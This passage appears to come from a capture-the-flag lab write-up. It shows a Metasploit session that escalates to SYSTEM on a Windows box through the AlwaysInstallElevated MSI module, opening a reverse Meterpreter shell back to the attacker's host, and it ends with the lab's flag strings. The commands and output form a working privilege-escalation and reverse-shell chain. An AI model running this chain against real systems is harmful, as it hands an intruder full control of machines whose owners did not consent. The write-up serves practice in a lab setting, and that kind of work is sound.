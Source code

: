 ```bash


Exploit target:

   Id  Name
   --  ----
   0   Windows



View the full module info with the info, or info -d command.

msf6 exploit(windows/local/always_install_elevated) > set lhost 192.168.56.6
lhost => 192.168.56.6
msf6 exploit(windows/local/always_install_elevated) > set lport 7788
lport => 7788
msf6 exploit(windows/local/always_install_elevated) > set session 1
session => 1
msf6 exploit(windows/local/always_install_elevated) > run

[*] Started reverse TCP handler on 192.168.56.6:7788
[*] Uploading the MSI to C:\Users\ftpuser\AppData\Local\Temp\VEPgFpavVN.msi ...
[*] Executing MSI...
[*] Sending stage (176198 bytes) to 192.168.56.25
[+] Deleted C:\Users\ftpuser\AppData\Local\Temp\VEPgFpavVN.msi
[*] Meterpreter session 2 opened (192.168.56.6:7788 -> 192.168.56.25:54480) at 2024-12-24 08:16:38 -0500

meterpreter > shell
Process 1976 created.
Channel 2 created.
Microsoft Windows [S▒r▒m 6.1.7601]
Telif Hakk▒ (c) 2009 Microsoft Corporation. T▒m haklar▒ sakl▒d▒r.

C:\Windows\system32>whoami
whoami
nt authority\system

```

最后是flag
```
HMV{You_Found_Me!}
```

```
HMV{White_Flag_Raised}
```
